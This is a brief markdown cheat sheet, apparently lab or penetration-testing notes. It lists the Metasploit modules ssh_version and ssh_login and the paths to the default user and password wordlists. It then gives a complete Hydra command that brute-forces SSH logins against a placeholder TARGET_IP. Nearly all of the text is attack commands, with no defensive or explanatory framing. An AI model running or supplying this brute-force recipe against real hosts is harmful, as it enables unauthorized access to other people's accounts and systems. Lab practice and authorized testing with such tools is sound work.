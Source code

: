 # Metasploit Modules

- auxiliary/scanner/ssh/ssh_version
- auxiliary/scanner/ssh/ssh_login

Use /usr/share/metasploit-framework/data/wordlists/common_users.txt username dictionary
Use /usr/share/metasploit-framework/data/wordlists/common_passwords.txt password dictionary

Hydra: hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt -t 4 TARGET_IP ssh
